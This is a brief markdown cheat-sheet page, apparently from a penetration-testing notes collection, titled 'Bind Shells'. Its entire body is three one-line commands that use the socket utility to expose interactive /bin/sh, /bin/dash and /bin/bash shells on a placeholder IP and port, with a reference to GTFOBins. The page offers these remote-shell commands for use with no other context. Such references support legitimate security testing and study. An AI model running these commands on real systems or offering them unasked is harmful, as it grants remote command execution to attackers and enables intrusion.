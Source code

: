 # Bind Shells

```
socket -qvp '/bin/sh -i' <IP> <PORT>

socket -qvp '/bin/dash -i' <IP> <PORT>

socket -qvp '/bin/bash -i' <IP> <PORT>
```

---
## References

- [GTFOBins: socket](https://gtfobins.github.io/gtfobins/socket/)